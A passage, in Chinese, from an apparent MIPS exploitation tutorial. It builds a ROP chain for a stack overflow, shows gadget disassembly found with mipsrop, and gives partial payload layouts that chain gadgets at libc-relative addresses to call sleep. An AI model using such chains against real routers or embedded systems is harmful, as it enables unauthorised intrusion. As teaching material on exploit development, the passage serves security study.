 我们随便挑选一个，0x2fb10，这个里面的gadget0是

```
.text:0002FB10                 li      $a0, 1
.text:0002FB14                 move    $t9, $s1
.text:0002FB18                 jalr    $t9 ; sub_2F818
.text:0002FB1C                 ori     $a1, $s0, 2
```

2)根据第一个gadget，我们需要一个能给寄存器`$s1`赋值的那么一个gadget1，我们用指令mipsrop.find(“lw `$s1`,”)，找到了好多，我们随便挑一个，既给寄存器赋值，又用这个寄存器跳转的，

```
.text:00006A50                 lw      $ra, 0x68+var_4($sp)
.text:00006A54                 lw      $s2, 0x68+var_8($sp)
.text:00006A58                 lw      $s1, 0x68+var_C($sp)
.text:00006A5C                 lw      $s0, 0x68+var_10($sp)
.text:00006A60                 jr      $ra
```

3）所以这个时候，我们的利用脚本如下：

```
"a"*508
p32(gadget1+libc_base)
"b"*0x58
"????" #s0
"????" #s1
"????" #s2
p32(gadget0+libc_base)
```

4)我们这个时候就要想一下，我们在s1的位置填写什么地址，是`sleep`函数的地址嘛？显然不是的，如果这个地方填写了`sleep`函数的地址，那么就直接跳转进`sleep`函数，而`$ra`寄存器还是gadget0的地址，执行完`sleep`函数之后，就又回到了这里，所以这里需要一个既能利用`$s0`或者`$s2`寄存器跳转，并且还能给`$ra`寄存器赋值的gadget2，我们用指令mipsrop.tali()寻找，经过查看，我们采用下面的gadget：

```
.text:00020F1C                 move    $t9, $s2
.text:00020F20                 lw      $ra, 0x28+var_4($sp)
.text:00020F24                 lw      $s2, 0x28+var_8($sp)
.text:00020F28                 lw      $s1, 0x28+var_C($sp)
.text:00020F2C                 lw      $s0, 0x28+var_10($sp)
.text:00020F30                 jr      $t9
```

所以，这个时候的利用脚本变成下面的样子：

```
"a"*508
p32(gadget1+libc_base)
"b"*0x58
"bbbb" #s0
p32(gadget2+libc_base) #s1
p32(sleep_offset+libc_base) #s2
p32(gadget0+libc_base)
#---------
"c"*0x18
"cccc" #s0
"cccc" #s1
"cccc" #s2
"????" #ra
```
